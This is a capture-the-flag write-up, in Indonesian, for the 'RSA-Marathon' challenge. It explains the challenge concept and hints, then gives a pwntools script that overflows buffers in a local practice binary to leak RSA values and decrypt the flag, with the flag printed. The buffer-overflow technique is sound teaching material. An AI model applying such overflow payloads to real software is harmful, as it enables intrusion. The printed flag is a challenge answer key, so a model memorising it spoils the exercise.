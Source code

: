 # RSA-Marathon (214 Pts)

- [RSA-Marathon](#rsa-marathon)
- [Deskripsi](#deskripsi)
- [Konsep soal](#konsep-soal)
- [HINT](#hint)
- [Proof of Concept](#proof-of-concept)
- [Refrensi](#refrensi)

## Deskripsi
Jadilah juara di perlombaan marathon HOLOGY !!!

Author : **Dolf7**

Format Flag : Hology4{}

## Konsep soal
- Buffer Overflow
- Buffer Overwrite
- RSA Kriptografi
  
Mencari Overflow dan menuju alamat fungsi yang ada sesuai urutan soal. Jika sampai di akhir maka akan mendapatkan beberapa petunjuk flag berupa komponen dari RSA yang dapat di dekripsi untuk mendapat flag 


## HINT
1. Dapatkan petanya terlebih dahulu
2. Perhatikan kemana kamu pergi, jangan sampai tersesat
3. Berlari lebih dari yang diminta, akan sangat membantu mu
   
## Proof of Concept
```
#!usr/bin/env python3
from pwn import *
from Crypto.Util.number import *

p = process('./marathon')
load0 = 0xc0debeef
x = b'A'*10 + p32(load0)
p.sendline(x)
p.recvuntil(b"e ")
e = p.recvline()
e = int(e, 16)

p.recvuntil(b"n ")
n = p.recvline()[:-1]
n = int(n, 16)

p.recvuntil(b"c ")
c = p.recvline()[:-1]
c = int(c, 16)

p.recvuntil(b"l ")
l = p.recvline()[:-1]
l = int(l, 16)

p.recvuntil(b"s ")
s = p.recvline()[:-1]
s = int(s, 16)

payload0 = b'A'*50 + p32(e)
payload1 = b'A'*132 + p32(l)
payload2 = b'A'*132 + p32(n)
payload3 = b'A'*68 + p32(s)
payload4 = b'A'*260 + p32(c)
p.recvuntil(b"Check point 0 \n")

p.sendline(payload0)
p.recvuntil(b'e= ')
e1 = p.recvline()

p.sendline(payload1)

p.sendline(payload2)
p.recvuntil(b'n= ')
n1 = p.recvline()

p.sendline(payload3)

p.sendline(payload4)
p.recvuntil(b'c= ')
c1 = p.recvline()

p.sendline(x)
p.sendline(payload0)
p.recvuntil(b'p= ')
p1 = p.recvline()

e = int(e1[:-1])
n = int(n1[:-1])
c = int(c1[:-1])
p = int(p1[:-1])
q = n//p

phi = (p-1) *(q-1)
d = inverse(e, phi)
m = pow(c, d, n)
y = str(hex(m)[2:])

print(bytes.fromhex(y).decode('ascii'))
```

ouput :
```
$ python3 solve.py 
[+] Starting local process './marathon': pid 10802
hology4{F1ni5h_H0l0GY4_M4rath0n_Ch4mp10n}
[*] Process './marathon' stopped with exit code 0 (pid 10802)
```

Flag : hology4{F1ni5h_H0l0GY4_M4rath0n_Ch4mp10n}

## Refrensi
Tidak ada

